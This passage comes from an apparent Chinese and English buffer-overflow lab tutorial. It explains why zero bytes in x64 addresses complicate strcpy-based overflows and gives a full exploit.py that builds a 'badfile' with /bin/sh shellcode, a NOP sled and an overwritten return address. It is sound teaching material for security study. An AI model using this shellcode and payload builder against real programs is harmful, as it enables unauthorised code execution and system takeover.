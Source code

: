 可以看到在 **`0x00000070`** 行中，**`c2 dd ff ff ff 7f 00 00`** 就是保存在 **`content[120:128]`** 地址处的跳转地址。对于 64 位机器来说，有一个问题，Compared to buffer-overflow attacks on 32-bit machines, attacks on 64-bit machines is more difficult. The most difficult part is the address. Although the x64 architecture supports 64-bit address space, only the address from 0x00 through 0x00007FFFFFFFFFFF is allowed. **<font color="red">That means for every address (8 bytes), the highest two bytes are always zeros. This causes a problem</font>**.

In our buffer-overflow attacks, we need to store at least one address in the payload, and the payload will be copied into the stack via strcpy(). We know that the strcpy() function will stop copying when it sees a zero. **<font color="red">Therefore, if zero appears in the middle of the payload, the content after the zero cannot be copied into the stack</font>**. How to solve this problem is the most difficult challenge in this attack.

因此，从上面的 badfile 二进制文件可以看出，由于 **`c2 dd ff ff ff 7f 00 00`** 地址中 0 值的存在，导致地址之后的 NOP 指令和 shellcode 代码都不会被复制到栈中。**而解决方法就是将 shellcode 往前移动到 buffer 起始地址和 %rbp 之间的位置**。badfile 文件的结构如下图所示：

<div align="center">
    <img src="缓冲区溢出攻击_static/15.png" width="500"/>
</div>

修改后的 exploit.py 文件如下所示：

```python{.line-numbers}
import sys

shellcode = (
        "\x48\x31\xc0"
        "\x50"
        "\x48\xbb\x2f\x62\x69\x6e\x2f"
        "\x2f\x73\x68"
        "\x53"
        "\x48\x89\xe7"
        "\x50"
        "\x57"
        "\x48\x89\xe6"
        "\x48\x31\xd2"
        "\xb0\x3b"
        "\x0f\x05"
).encode('latin-1')

content = bytearray(0x90 for i in range(300))

start = 50
content[start:start + len(shellcode)] = shellcode

ret = 0x7fffffffdd20 + 50
content[120:128] = (ret).to_bytes(8, byteorder='little')

file = open("badfile", "wb")
file.write(content)
```